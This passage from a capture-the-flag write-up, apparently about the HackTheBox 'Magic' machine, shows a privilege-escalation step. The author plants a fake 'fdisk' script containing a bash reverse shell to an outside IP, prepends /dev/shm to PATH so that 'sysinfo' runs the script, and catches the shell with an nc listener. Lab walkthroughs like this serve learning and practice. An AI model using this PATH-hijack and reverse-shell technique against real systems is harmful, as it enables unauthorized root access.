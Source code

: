 
I create the malicious `fdisk` variant in `/dev/shm` as such:

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.54/445 0>&1' > fdisk
chmod +x fdisk
```


Next, I modify the PATH variable:

```bash
export PATH="/dev/shm:$PATH"
```


Now I start my local listener with:

```bash
rlwrap nc -lnvp 445
```

And finally we can execute `sysinfo` on the target again, which stalls the shell once `sysinfo` invokes our `fdisk` script, at which point I get a shell:

![root-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Magic/img/root-29.png)
